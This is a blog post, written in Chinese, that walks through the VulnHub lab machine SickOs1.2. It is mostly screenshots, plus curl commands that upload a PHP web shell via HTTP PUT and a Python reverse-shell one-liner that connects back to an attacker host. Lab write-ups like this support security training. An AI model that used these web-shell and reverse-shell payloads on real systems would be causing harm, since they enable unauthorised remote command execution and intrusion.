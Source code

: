```yaml
---
layout: post
title:  "SickOs1.2"
description: walkthrough
category: vulnhub
---
```

# SickOs1.2

![image-20200619213638254]({{ site.url }}/assets/SickOs1.2.assets/image-20200619213638254.png)



![image-20200619213758347]({{ site.url }}/assets/SickOs1.2.assets/image-20200619213758347.png)



![image-20200619215228897]({{ site.url }}/assets/SickOs1.2.assets/image-20200619215228897.png)

test打开是目录，先看看是否能put

![image-20200619215435696]({{ site.url }}/assets/SickOs1.2.assets/image-20200619215435696.png)

![image-20200619215511209]({{ site.url }}/assets/SickOs1.2.assets/image-20200619215511209.png)

也可以用curl确认

```bash
curl -v -X OPTIONS http://10.10.10.137/test/
```

![image-20200619215817463]({{ site.url }}/assets/SickOs1.2.assets/image-20200619215817463.png)

```bash
 curl -v -X PUT -d '<?php system($_GET["cmd"]);?>' http://10.10.10.137/test/evil.php
```

![image-20200619220854241]({{ site.url }}/assets/SickOs1.2.assets/image-20200619220854241.png)

![image-20200619221002732]({{ site.url }}/assets/SickOs1.2.assets/image-20200619221002732.png)

用一句话，但是没有得到shell

```bash
http://10.10.10.137/test/evil.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.128",1338));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

尝试使用wget吧php rshell 上传过去以获得shell

![image-20200619222515058]({{ site.url }}/assets/SickOs1.2.assets/image-20200619222515058.png)

![image-20200619222546121]({{ site.url }}/assets/SickOs1.2.assets/image-20200619222546121.png)

